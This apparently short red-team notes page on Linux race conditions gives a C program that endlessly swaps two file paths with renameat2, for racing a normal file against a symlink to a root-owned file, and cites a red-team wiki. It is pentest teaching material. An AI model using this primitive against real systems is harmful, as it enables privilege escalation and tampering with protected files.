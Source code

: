 # Linux Race Conditions

Linux, swapping file paths between 2 files very quickly (normal file, symlink to root owned file, swap, swap ,swap):
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

## References

[notes.Vulndev - Linux Race](https://notes.vulndev.io/wiki/redteam/misc/linux-race)